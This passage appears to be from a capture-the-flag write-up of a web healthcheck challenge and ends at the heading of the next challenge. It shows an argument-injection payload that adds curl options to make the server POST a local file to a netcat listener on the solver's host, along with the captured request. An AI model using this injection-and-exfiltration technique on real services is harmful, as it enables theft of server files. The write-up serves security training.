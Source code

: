    ![valid_output](./assets/healthcheck_valid_output.png)
2. Play around with the input, special characters typically related to bash scripting is filtered. `-` is not filtered.
3. Prepare listener on host machine:
   ```sh
   nc -lvnp 80
   ```
4. Pass input on website:
   ```txt
   -X POST --data-ascii @hopes_and_dreams http://<host_machine_ip>
   ```
5. `hopes_and_dreams` content gets printed on listener stdout:

   ```sh
   Listening on 0.0.0.0 80
   Connection received on 104.214.185.119 41800
   POST / HTTP/1.1
   Host: 164.92.121.195
   User-Agent: curl/7.52.1
   Accept: */*
   Content-Length: 41
   Content-Type: application/x-www-form-urlencoded

   umcs{<flag_redacted>}
   ```

## 3.0 babysc

### 3.1 Description
